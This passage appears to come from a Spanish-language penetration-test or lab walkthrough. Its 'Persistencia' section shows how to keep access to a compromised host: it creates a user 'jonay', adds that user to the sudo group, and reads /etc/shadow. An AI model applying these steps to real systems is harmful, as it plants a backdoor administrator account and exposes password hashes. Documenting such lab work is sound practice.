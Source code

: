<p align="center">
    <img src="../img/Pasted_image_20241207222056.png" width="500">
</p>


---

### Persistencia

Para mantener el acceso, creamos un nuevo usuario llamado **jonay** y lo añadimos al grupo **sudo**:

1. Crear usuario y asignar contraseña: 
```
useradd -m -s /bin/bash jonay
passwd jonay
```

<p align="center">
    <img src="../img/Pasted_image_20241207222512.png" width="500">
</p>
   
    
2. Añadirlo al grupo **sudo**:
```
usermod -aG sudo jonay 
```

<p align="center">
    <img src="../img/Pasted_image_20241207222555.png" width="500">
</p>
		
3. Verificar la creación:
```
cat /etc/shadow
```

<p align="center">